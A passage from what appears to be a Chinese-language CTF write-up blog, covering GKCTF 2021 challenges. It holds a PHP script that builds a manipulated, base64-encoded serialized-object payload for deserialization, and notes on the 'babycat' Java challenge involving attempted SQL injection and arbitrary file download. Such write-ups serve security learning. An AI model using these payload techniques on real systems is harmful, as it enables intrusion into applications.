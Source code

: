 ```php

function decorate($str)
{
    $arr = explode(':', $str);
    $newstr = '';
    for ($i = 0; $i < count($arr); $i++) {
        if (preg_match('/00/', $arr[$i])) {
            $arr[$i - 2] = preg_replace('/s/', "S", $arr[$i - 2]);
        }
    }
    $i = 0;
    for (; $i < count($arr) - 1; $i++) {
        $newstr .= $arr[$i];
        $newstr .= ":";
    }
    $newstr .= $arr[$i];
    echo "www.gem-love.com\n";
    return $newstr;
}

$y1ng = serialize(new HelloWorld_DB());
$y1ng = preg_replace(" /\^\^/", "\r\n", $y1ng);
$urlen = urlencode($y1ng);
$urlen = preg_replace('/%00/', '%5c%30%30', $urlen);
$y1ng = decorate(urldecode($urlen));
echo base64_encode($y1ng);
```

看来废物是做不出来题的，呜呜呜。卡死在门口。

## 0x04 [GKCTF 2021]babycat

> 塔门说这是一个java题，让我这个学java3天半的练习生来试一下。

![image-20220104153608818](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220104153608818.png)

我以为开局是个sql注入，注了nm半天，发现杯骗了。

![image-20220104153740206](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220104153740206.png)

然后发现还是guest，无聊......

![image-20220104153800250](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220104153800250.png)

看来还是要提权了.....

![image-20220104153846042](https://gitee.com/Cralwer/typora-pic/raw/master/images/image-20220104153846042.png)

任意文件下载。环境文件

```
SHELL=/bin/sh
/home/app
/usr/local/tomcat
```
